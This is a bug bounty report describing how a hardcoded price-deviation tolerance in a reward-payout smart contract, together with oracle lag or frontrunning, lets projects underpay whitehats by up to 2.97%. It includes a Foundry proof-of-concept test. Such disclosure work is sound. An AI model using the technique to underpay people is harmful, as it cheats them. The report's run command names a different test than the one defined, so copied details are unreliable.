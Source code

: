 
# Projects can pay rewards at up to 2.97% below market value due to hardcoded price deviation tolerance

Submitted on Apr 1st 2024 at 20:45:03 UTC by @marchev for [Boost | Immunefi Arbitration](https://immunefi.com/bounty/immunefiarbitration-boost/)

Report ID: #29744

Report type: Smart Contract

Report severity: Insight

Target: https://github.com/immunefi-team/vaults/blob/main/src/RewardTimelock.sol

Impacts:
- Theft of unclaimed royalties

## Description
## Brief/Intro

Due to a hardcoded setting in the protocol (`PRICE_DEVIATION_TOLERANCE_BPS`) allowing for a 1% price deviation of whitehat awards when paid in non-native tokens and the potential 2% deviation for Chainlink's price feeds for some tokens (e.g. ARB, ENS, FXS, etc.), there's a risk that whitehat hackers could be underpaid by up to 2.97%. This issue arises when the actual market price of an asset falls slightly, such as by 1.99%, which doesn't trigger an oracle update. This results in a temporarily inflated asset price reported by the Chainlink price oracle. This combined with the ability to pay a reward with a deviation of 1% could be exploited by projects to underpay whitehats.

## Vulnerability Details

The vulnerability centers around the `RewardTimelock` smart contract, which handles reward payouts to whitehats during arbitration. Projects specify the dollar value of the award, and after a cooldown period, they can pay in tokens. The smart contract checks if the token amount matches the dollar value, allowing a 1% deviation. However, some tokens have a 2% price deviation in their Chainlink price feeds. If the token's market price drops just below 2%, a project can pay the whitehat less than the full market value, exploiting the gap up to 2.97%:

```
100 - ((100 - 1.99%) * 99%) = 2.97%
```

Furthermore, projects have the capability to exploit the vulnerability even when the price drops more than 2% below the oracle price. They can do this by frontrunning the transaction meant to update the Oracle price feed. This maneuver provides a significant safety margin.

**Example:**

1. A project owes a whitehat $100,000, paid in ARB tokens.
2. After the cooldown, the ARB/USD price by the oracle is $1.60, but the market price is $1.5688.
3. The project pays 61,785 ARB instead of the 63,742.99 ARB due at market rates.

While the price oracle price deviation cannot be avoided, adjusting the hardcoded `PRICE_DEVIATION_TOLERANCE_BPS` to be more flexible and specific to token's price feed could mitigate this issue to a certain extent. This is especially important for feeds that update less frequently as indicated by a 2% deviation and a 86400s heartbeat. It should be noted that all Chainlink price feeds on mainnet with a deviation of 2% have a hearbeat of 86400s which implies they are meant to update less frequently which reduces the need for a favorable price deviation tolerance as high as 1%.

## Impact Details

The hardcoded deviation combined with Chainlink's deviation can lead to significant losses for whitehats. This risk is medium, as it depends on specific price feed deviations (2%) and market conditions. The severity is also considered medium due to the financial impact on whitehats. A more adaptable configuration for the reward value deviation could mitigate the issue.


## Proof of Concept

To illustrate the vulnerability, I provide a coded PoC which demonstrates its impact. Add the following test case to `RewardTimelock.t.sol`:

```sol
    function test_project_can_pay_reward_at_up_to_2_97_percent_below_market_value() public {
        // Token in which the award is paid
        ERC20PresetMinterPauser token = new ERC20PresetMinterPauser("Arbitrum", "ARB");
        token.mint(address(vault), 1_000_000e18);

        uint256 ARB_USD_PRICE_SCALE = 1e8;

        uint256 arbUsdOraclePrice = 1.60e8;   // ARB/USD oracle price = 1.60000000
        uint256 arbUsdMarketPrice = 1.5688e8; // ARB/USD market price = 1.56880000 (1.95% below oracle price)
                                              // NOTE: Deviation for ARB/USD chainlink oracle = [-2%; 2%].
                                              // Thus, -1.95% below oracle price does not trigger an oracle  update.

        uint256 dollarAmount = 100_000;
        uint256 tokenAmountPerOraclePrice = (dollarAmount * 1e18 * ARB_USD_PRICE_SCALE) / arbUsdOraclePrice;
        uint256 tokenAmountPerOraclePriceMinus1Percent = (tokenAmountPerOraclePrice * 99_00) / 100_00;
        uint256 tokenAmountPerMarketPrice = (dollarAmount * 1e18 * ARB_USD_PRICE_SCALE) / arbUsdMarketPrice;

        // set right permissions on moduleGuard
        vm.startPrank(protocolOwner);
        moduleGuard.setTargetAllowed(address(vaultDelegate), true);
        moduleGuard.setAllowedFunction(address(vaultDelegate), vaultDelegate.sendReward.selector, true);
        moduleGuard.setDelegateCallAllowedOnTarget(address(vaultDelegate), true);
        vm.stopPrank();

        uint256 nonce = rewardTimelock.vaultTxNonce(address(vault));
        bytes32 txHash = rewardTimelock.getQueueTransactionHash(address(this), dollarAmount, address(vault), nonce);

        // Mock vaultIsInArbitration
        vm.mockCall(
            address(arbitration),
            abi.encodeCall(arbitration.vaultIsInArbitration, (address(vault))),
            abi.encode(true)
        );

        _sendTxToVault(
            address(rewardTimelock),
            0,
            abi.encodeCall(rewardTimelock.queueRewardTransaction, (address(this), dollarAmount)),
            Enum.Operation.Call
        );
        assertEq(rewardTimelock.vaultTxNonce(address(vault)), nonce + 1);

        vm.warp(block.timestamp + rewardTimelock.txCooldown());
        assertTrue(rewardTimelock.canExecuteTransaction(txHash));

        Rewards.ERC20Reward[] memory erc20Rewards = new Rewards.ERC20Reward[](1);
        erc20Rewards[0] = Rewards.ERC20Reward({ token: address(token), amount: tokenAmountPerOraclePriceMinus1Percent });

        // Mock priceConsumer
        vm.mockCall(
            address(priceConsumer),
            abi.encodeCall(priceConsumer.tryGetSaneUsdPrice18Decimals, (address(token))),
            abi.encode(uint256(arbUsdOraclePrice) * 1e10)
        );

        _sendTxToVault(
            address(rewardTimelock),
            0,
            abi.encodeCall(rewardTimelock.executeRewardTransaction, (txHash, 0, erc20Rewards, 0, 50_000)),
            Enum.Operation.Call
        );
        assertEq(token.balanceOf(address(this)), tokenAmountPerOraclePriceMinus1Percent);

        uint256 whitehatLossAbsolute = tokenAmountPerMarketPrice - tokenAmountPerOraclePriceMinus1Percent;
        uint256 whitehatLossPercentage = whitehatLossAbsolute * 100_00 / tokenAmountPerMarketPrice;

        console.log("--------------------------------------");
        console.log("ARB/USD oracle price = %s (8 decimals)", arbUsdOraclePrice);
        console.log("ARB/USD market price = %s (8 decimals)", arbUsdMarketPrice);
        console.log("--------------------------------------");
        console.log("Dollar amount: $%s", dollarAmount);
        console.log("Expected ARB amount (per market price): %s", tokenAmountPerMarketPrice);
        console.log("Actual ARB amount (per oracle price minus 1 percent): %s", tokenAmountPerOraclePriceMinus1Percent);
        console.log("Loss for whitehat (absolute): %s", whitehatLossAbsolute);
        console.log("Loss for whitehat (%): %s", getPercentageString(whitehatLossPercentage), "%");
        console.log("--------------------------------------");
    }
```

Run the PoC via the following command:

```sh
forge test --mt "test_project_can_pay_reward_at_up_to_2_99_percent_below_market_value" -vvvvv
```